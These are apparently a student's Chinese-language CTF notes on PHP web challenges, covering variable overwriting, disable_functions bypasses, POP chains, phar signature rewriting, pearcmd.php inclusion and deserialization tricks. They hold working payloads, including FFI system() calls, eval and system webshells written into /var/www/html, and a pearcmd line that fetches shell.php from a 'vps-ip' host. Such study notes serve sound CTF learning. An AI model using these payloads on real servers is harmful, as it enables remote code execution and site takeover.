

# Web CTF Notes — PHP 题目、PEAR 包含与 PHP 反序列化

> 来源：source/本科web笔记.md
> 内容按原笔记保留，仅添加本分组标题。

## 二十四、PHP 题目

## 🛠️ 二十四、PHP 题目

> [!summary] 速览
> - **变量覆盖**：`foreach($_POST as $k=>$v) $$k=$v;` / `foreach($_GET as $k=>$v) $$k=$$v;`
> - `isset` 用 `&&` 连接时 POST 可以不传，直接 `?c=flag&flag=c` 完成 `$c=$flag`、`$flag=$c`
> - **disable_functions 绕过**：蚁剑上传木马、`load_file`、FFL 绕过（`FFI::cdef` + `__serialize()[...]->system()`）
> - **伪协议**：`php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8/convert.base64-decode/resource=`
> - 心得：`preg_match` 过滤什么，留下的就是你该用的漏洞；`eval` 过滤括号就改用 `include` / `require` / `echo`
> - **POP 链**：private 属性 `\00类名\00属性`（+2）、protected 属性 `\00*\00属性`（+3）；原生类 `DirectoryIterator('glob:///f*')`、`SplFileObject('/flag')`
> - phar：生成后用 010 改属性数量绕 `__wakeup`，压缩后需重算签名（python 重写 sha1）



> [!danger] `disable_functions` 绕过属于高风险操作
> 仅在**已获授权**的靶场 / 测试环境使用；蚁剑、FFL、`load_file` 三条路按题目环境选，能通的往往只有一条。

### 常见绕过

> ```php
> foreach ($_POST as $key => $value) {
>   $$key = $value;
> }
> 
> foreach ($_GET as $key => $value) {
>   $$key = $$value;
> }

> ```
>
>

需要get一个flag和post一个flag。然后看了眼函数，其中foreach加上。所以我看了wp，想起来POST是可以不用传的。因为isset那里面是&&连接。所以直接get传参一个flag。

先c=flag然后让flag=c。这样被解析之后，就是$c=$flag&$flag=$c。从而达到真正输出flag的作用。而不会用一个变量c把$flag=flag{xxxxxx}给覆盖。那么最后echo出来的就是$flag。payload：

?c=flag&flag=c

### disable 绕过

1.蚁剑绕过，通过上传木马

`file_get_content('$_POST['cmd']'));`

2.load_file绕过

3.FFL绕过

https://blog.csdn.net/fmyyy1/article/details/116998001

```php
a=unserialize(base64_decode('QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319'))->__serialize()['ret']->system('cat /flag>/var/www/html/1.txt');

```

### PHP 伪协议

```text
php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8/convert.base64-decode/resource=

```

php://filter/write=convert.quoted-printable-decode/resource=

### 心得

1.preg_math过滤什么留下的就是使用的漏洞

2.eval过滤括号（，就用不用括号的，常见的有**include、require、echo**等，

### POP 链条构造

private\00类名\00属性 +2

protect \00*\00属性 +3

如果是在php7.1版本以上的
对传入的属性要求不高

```php
$token = serialize(['user' => 'user', 'pass' => 'pass']);
echo $token;

```

原生类

DirectoryIterator可以配合glob://协议使用模式匹配来寻找需要的文件

```php
echo(new+DirectoryIterator('glob:///f*'));

```

SplFileObject可以读取文件

SplFileObject(/flag)

include函数

常用伪协议php:filter-->文件名已知

data://text/plain,<?php?>这段代码，对前面的内容或者后缀名是没有要求的，可以直接修改为其他后缀。

只要将phar文件使用 gzip 命令进行压缩,这段代码就会消失。

phar由data,data签名（20位）,和签名格式（8位）组成。

生成phar文件,同时放入010增加属性数量来绕过weak_up

```php
<?php

class LoveNss
{
    public $ljt;
    public $dky;
    public $cmd;

    public function __construct()
    {
        $this->ljt = "Misc";
        $this->dky = "Re";
        $this->cmd = 'system($_POST[0]);';
    }

}

$o = new LoveNss();
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new LoveNss();
$phar->setMetadata($o); //将自定义的meta-data存入manifest，setMetadata()会将对象进行序列化
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
$phar->stopBuffering(); //签名自动计算
#本题要将生成得phar文件放入010修改属性数量来绕过weak_up
#php.ini中phar.readonly改成Off

```

修改签名

```python
from hashlib import sha1
import gzip

with open('D:\\sublime text\\Sublime Text\\source\\反序列化\\phar.png', 'rb') as file:
    f = file.read()
s = f[:-28]  # 获取要签名的数据
h = f[-8:]  # 获取签名类型以及GBMB标识
new_file = s + sha1(s).digest() + h  # 数据 + 签名 + (类型 + GBMB)
f_gzip = gzip.GzipFile("D:\\sublime text\\Sublime Text\\source\\反序列化\\2.png", "wb")
f_gzip.write(new_file)
f_gzip.close()

```

### 调用函数

ctfshow=ctfshow::getFlag  前面类后面方法

ctfshow[0]=ctfshow&ctfshow[1]=getFlag  #POST

```php
class A{
  public $key;
  public function readflag(){
    if($this->key === "\0key\0"){
      readfile('/flag');
    }
  }
}
class B{
  public function  __toString(){
    return ($this->b)();
  }
}

```

```php
class B{
  public $b; // New
  
  // New
  public function __construct() {
    $this->b = [new A(), "readflag"];
  }
  
  public function  __toString(){
    ($this->b)(); // New
    return ""; // New
  }
}

```

通过数组来进行内部函数调用

---


## 二十五、PEAR 包含

## 🍐 二十五、PEAR 包含

> [!summary] 速览
> - 方法一：`install -R` 远程下载木马到站点目录
> - 方法二：`config-create` 生成配置文件，把配置项写成 PHP 代码（`-d man_dir=<?php eval($_POST[1]);?>`）
> - 方法三：直接写配置文件到 web 目录（`config-create` + 路径 + 文件名）
> - 参数拆解：第一个参数随便写没用，第二个参数才是真正生效的；注意末尾空格与 URL 编码

### 方法一：远程文件下载（下载远程木马到本地）

?file=/usr/local/lib/php/pearcmd.php&lalala+install±R+/var/www/html/+[http](https://so.csdn.net/so/search?q=http&spm=1001.2101.3001.7020)://vps-ip/shell.php

lalala：随便输，第一个参数没用，第二个有用

install：安装远程扩展

-R：指定安装到的目录

/var/www/html/：目录

http://vps-ip/shell.txt：从哪下载

### 方法二：生成配置文件，把配置项传成恶意 PHP 代码

1=/usr/local/lib/php/pearcmd.php&±c+/tmp/ctf.php±d+man_dir=<?php%20eval($_POST[1]);?>±s+

### 方法三：写配置文件方式

GET /?file=/usr/local/lib/php/pearcmd.php&aaaa+config-create+/var/www/html/<?=`$_POST[1]`;?>+shell.php

（最后有一个空格）

POST/?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=system('cat${IFS}/f*');?>+/var/www/html/test

1=localhost/usr/local/lib/php/pearcmd.php&/<?=@eval($_POST['cmd']);?>+/var/www/html/test.php

相同字符强弱相等绕过，采用单个字符url二次编码绕过

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps19.jpg`

---


## 二十七、PHP 反序列化

## 🔗 二十七、PHP 反序列化

> [!summary] 速览
> - **字符逃逸** 分两类：字符变多（溢出长度看 `";i:1;s:2:"20";}`）与字符变少（用两个变量互相吃）
> - **`__destruct`** 触发；`throw new Exception` 时可用强制 GC 回收（属性数量 1 → 0）
> - **`__wakeup` 绕过**：属性数量从 1 改成 2；或用 `C` 代替 `O`（但只能执行 `__construct` / `__destruct`）
> - **大小写绕过**：变量名/常量名/数组键区分大小写，函数名/方法名/类名/魔术常量/`NULL`/`FALSE`/`TRUE` 不区分

if (!preg_match("/[a-zA-Z0-9~\-_=!\^+\(\)]/", $this->gg2)) {

通过正则可以触发tostring

### 字符逃逸

字符逃逸的本质其实也是闭合，但是它分为两种情况，一是字符变多，二是字符变少

#### 字符增多

溢出多少看";i:1;s:2:"20";}这个长度

#### 字符减少

**要使用两个变量进行控制，第一段进行变少覆盖掉原来的第二段，吃到第二个的hello停止，这样直接开启下一个，而下一个刚好是自己控制的，因为s:54被吃掉所以自由控制后面，**

**那第一个变量就是我们逃逸出来的**

hello";s:4:"sign";s:4:"eval";s:6:"number";s:4:"2000";}

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps20.jpg`

里面包括自己构造随机一个变量

### Destruct 触发

 public function __destruct(){

    global $flag;

    echo $flag;

  }

### 字符过滤绕过：函数名 / 方法名 / 类名不区分大小写

if(preg_match('/ctfshow/', $cs)){

区分大小写的： 变量名、常量名、数组索引（键名key）不区分大小写的：函数名、方法名、类名、魔术常量、NULL、FALSE、TRUE

### 绕过 throw new Exception 强制 GC 回收执行 __destruct()

	#O:4:"test":1:{s:5:"test1";s:2:"aa";}//将此处1改为0即可正常销毁	$str='O:4:"test":0:{s:5:"test1";s:2:"aa";}';

```text
i:1`修改为`i:0

```

### __wakeup 绕过

，把反序列化中的内容数量，从1改成2即可

C代替O能绕过wakeup，但那样的话只能执行construct()函数或者destruct()函数，无法添加任何内容，这次比赛学到了种新方法，就是把正常的反序列化进行一次打包，让最后生成的payload以C开头即可

```php
$token = serialize(['user' => 'user', 'pass' => 'pass']);
echo $token;

```

---

